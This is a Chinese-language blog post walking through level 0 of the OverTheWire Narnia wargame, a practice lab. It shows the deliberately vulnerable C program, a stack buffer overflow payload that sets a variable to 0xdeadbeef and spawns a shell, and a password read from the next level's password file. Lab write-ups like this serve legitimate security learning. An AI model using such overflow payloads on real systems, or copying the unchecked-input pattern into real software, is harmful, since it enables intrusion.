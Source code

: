 ```yaml
---
layout: post
title:  "【HackGame】OverTheWireCrypton"
date:   2019-10-02 00:00:00 +0800
categories: 安全
tags: game
comments: 1
mathjax: true
copyrights: 原创 未完待续
---
```


https://overthewire.org/wargames/narnia/

每关使用 ssh 连接

```shell
ssh -p 2226 narnia0@narnia.labs.overthewire.org
```

# Level 0–>Level 1

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

可以看到，有一个大小为 20 的 buf，我们需要通过输入溢出 buf 来覆盖 val 的值。

我们首先做一个简单的尝试：

```shell
$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAABCDE
buf: AAAAAAAAAAAAAAAAAAAABCDE
val: 0x45444342
WAY OFF!!!!
```

值得注意的是，val 的值为 `0x45444342`，即 EDCB。

```shell
/narnia$ python2 -c 'print "A"*20 + "\xef\xbe\xad\xde\x80"'
AAAAAAAAAAAAAAAAAAAAﾭހ
/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAAﾭހ
buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
$ cat /etc/narnia_pass/narnia1
eaa6AjYMBB
```

